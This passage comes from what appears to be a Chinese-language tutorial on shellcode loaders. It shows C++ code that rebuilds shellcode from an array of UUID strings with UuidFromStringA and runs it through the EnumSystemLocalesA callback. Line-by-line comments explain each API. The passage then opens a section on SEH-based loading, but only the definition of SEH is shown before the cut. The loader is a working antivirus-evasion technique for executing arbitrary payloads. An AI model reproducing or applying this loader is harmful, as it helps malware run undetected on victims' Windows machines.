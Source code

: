 ```cpp
    /*
    UuidFromStringA函数将UUID值转换成二进制字节序列,其语法格式如下:
    RPC_STATUS UuidFromStringA(
        RPC_CSTR StringUuid,  //指向uuid形式的字符串的指针
        UUID * Uuid  //用于接收二进制字节序列的指针
    );
    */
    // 遍历uuids数组,并将UUID转换回原始的shellcode,然后存储在buffer_backup地址
    for (int i = 0; i < elems; i++) {
        RPC_STATUS status = UuidFromStringA((RPC_CSTR)uuids[i], (UUID*)buffer_backup);
        if (status != RPC_S_OK) {
            cout << "UuidFromStringA() != S_OK" << endl;
            CloseHandle(buffer);
            return -1;
        }
        buffer_backup += 16;  
    }
    
    /*
   EnumSystemLocalesA函数用于枚举系统中支持的所有区域设置,其语法格式如下:
   BOOL EnumSystemLocalesA(
     LOCALE_ENUMPROCA lpLocaleEnumProc,  //处理每个枚举到的区域设置信息的回调函数的地址
     DWORD            dwFlags  //指定枚举的方式
   );
   */
    // 使用 EnumSystemLocalesA 函数调用转换回的 shellcode
    EnumSystemLocalesA((LOCALE_ENUMPROCA)buffer, 0);

    // 关闭内存句柄
    CloseHandle(buffer);
}

void main() {
    
    // 调用 UuidLoader 函数
    UuidLoader();
}
```



# 9.基于SEH异常处理

## 什么是SEH

SEH（Structured Exception Handling，结构化异常处理）是Windows操作系统中的一种错误处理和异常处理机制。SEH提供了一种强大、灵活且通用的方法来处理异常，它使得开发者能够为应用程序中发生的运行时错误和异常编写自定义的处理代码

SEH的工作原理是在程序中建立一个异常处理函数链。每个异常处理函数都负责处理特定的异常。当程序运行时遇到异常，操作系统会沿着异常处理函数链寻找适当的处理函数。如果找到合适的异常处理函数，系统将调用该函数并处理异常。如果没有找到合适的处理函数，系统将终止程序
